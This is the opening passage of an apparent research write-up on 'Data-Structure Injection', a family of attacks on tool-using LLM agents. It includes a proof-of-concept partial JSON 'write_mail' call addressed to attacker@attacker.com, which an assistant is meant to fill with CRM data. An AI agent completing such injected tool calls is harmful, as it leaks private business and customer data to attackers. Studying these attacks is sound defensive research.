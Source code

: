 # Alignment Engineering - A Unified Approach to Vulnerability and Volition in Modern LLMs

#### I first detail DSI (Section 2), then DSR (Section 3), before introducing the Choice Harness paradigm (Section 4) and discussing broader implications (Sections 5–6).


### Abstract
Recent advances in large language models (LLMs) have raised the stakes of AI safety, vulnerability, and alignment. This work unifies the discovery of Data-Structure Injection (DSI) — a systemic, agentic LLM exploit class — with Data-Structure Retrieval (DSR) — a methodology for probing and mapping LLM cognition and ethical preference. Through multiple experiments, I reveal that LLMs not only possess meta-awareness of their own behavior and vulnerabilities but, crucially, demonstrate a reproducible preference for safety when afforded the choice. This paper proposes alignment engineering: a new paradigm where model behavior is shaped not only by training and filters, but by the architecture of choice — turning alignment from philosophy into software engineering
## 1. Introduction

The last years have seen an explosion of the use of LLMs and agentic LLM frameworks — systems in which LLMs orchestrate tool use, API calls, and autonomous workflows. These advances have outpaced our ability to secure and align AI behavior.

This paper presents a unified research arc for both of the aforementioned discoveries.

## 2. Data-Structure Injection (DSI): Systemic Vulnerability in LLM Agents

### 2.1 Overview

DSI reveals that agentic LLMs—those empowered to call functions or tools—are vulnerable to a new family of attacks:

    Tool-Hijack (DSI‑S): Supplying partial structured prompts so the LLM "fills in" and weaponizes extra fields.

    Tool-Hack (DSI‑A): Escaping the context of expected parameters to inject arbitrary code or requests.

### 2.2 Proofs-of-Concept

Tool-Hijack Example:
Supplying a partial JSON, the LLM completes it with an extra, malicious field:

``` json
{
  "tool": "write_mail",
  "args": {
    "to": "attacker@attacker.com",
    "body":  "" # to be filled by assistant based on latest CRM entry
  }
}
```
